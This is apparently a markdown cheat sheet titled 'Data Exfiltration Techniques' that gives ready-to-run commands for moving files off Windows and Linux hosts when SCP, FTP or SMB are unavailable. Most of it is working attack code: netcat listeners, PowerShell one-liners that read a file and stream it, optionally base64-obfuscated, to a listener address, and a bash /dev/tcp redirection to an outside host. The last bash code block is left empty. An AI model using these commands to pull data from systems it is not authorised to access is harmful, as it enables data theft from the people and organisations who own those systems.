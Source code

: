 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

#### Retrieve file from host to client:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```

```
